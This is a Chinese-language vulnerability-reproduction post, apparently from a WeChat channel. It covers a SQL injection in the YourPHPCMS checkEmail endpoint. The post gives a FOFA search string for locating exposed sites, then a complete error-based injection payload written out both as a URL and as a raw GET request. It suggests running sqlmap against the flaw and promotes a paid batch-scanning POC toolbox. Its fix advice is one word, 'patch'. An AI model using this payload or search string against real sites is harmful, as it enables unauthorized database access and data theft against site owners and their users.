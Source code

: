 #  YourPHPCMS checkEmail接口存在SQL注入漏洞 附POC   
2024-12-23更新  南风漏洞复现文库   2024-12-23 15:23  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. YourPHPCMS 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
YourPHPCMS  
## 2.漏洞描述  
  
‌YourPHPCMS‌是一款完全开源的PHP和MySQL系统，主要用于企业网站管理。它基于**ThinkPHP框架开发，支持多种功能模块，如内容管管理、用户管理、广告管理等‌，YourPHPCMS checkEmail接口存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
YourPHPCMS  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6C97ibcM9AU79ejiacRkjkHicmROuwY5PJywqOILRiaWjTIcv6dP2NDk1q1A/640?wx_fmt=png&from=appmsg "null")  
  
YourPHPCMS checkEmail接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
header="YP_onlineid"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/index.php?g=Admin&m=Login&a=checkEmail&userid=1&email=%27+AND+%28SELECT+2578+FROM%28SELECT+COUNT%28%2A%29%2CCONCAT%280x71706b6b71%2C%28SELECT+%28ELT%282578%3D2578%2C1%29%29%29%2C0x7162627671%2CFLOOR%28RAND%280%29%2A2%29%29x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x%29a%29--+xmVt  
  
漏洞数据包：  
```
GET /index.php?g=Admin&m=Login&a=checkEmail&userid=1&email=%27+AND+%28SELECT+2578+FROM%28SELECT+COUNT%28%2A%29%2CCONCAT%280x71706b6b71%2C%28SELECT+%28ELT%282578%3D2578%2C1%29%29%29%2C0x7162627671%2CFLOOR%28RAND%280%29%2A2%29%29x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x%29a%29--+xmVt HTTP/1.1
Host: xxx.xx.xxx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6Cia4B2F200mnZjPFGON6AjImibQxT5e0XlGTTicD4LMuPXUaG8lTje8Zag/640?wx_fmt=jpeg&from=appmsg "null")  
  
可以跑sqlmap  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6CsL6Jx5sPlSRgepibcHLo36XbPAuSy7Ch2D20YGfB9Yb6fZlY6NE6YEA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6CUZ5TZTocialYP97dGIeQfM9Mpq5hz7BM4uWDqKUjNSfEOCrkWFp9Z8g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6Cic8kgObBjmSorRbOib7pZeRCWYakicjJp0iawyO0U6W2hic2pmSeWYYuq0g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6CDHTa85p8Dg6a8ereROHBcKvfCPjC1KtfQQsOJDsVWYIY6bH4fDZYeg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6C1RicIkvLG5T2hRib754TS1ARAtDUiclibibuJDkvIDvX4Kkpw0ryyI0Bycw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Zj4mniaichXKgV21nBQOKd6CQEVHTB1AqTKoQKIRaQSeK7kTqvOiaAI37IbKQ8jEt4yXt1ic3gcGU4Wg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
[Palo Alto Networks PAN-OS存在远程命令执行漏洞CVE-2024-9474 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487960&idx=1&sn=201e394851f63027036f862d8a36895d&scene=21#wechat_redirect)  
  
  

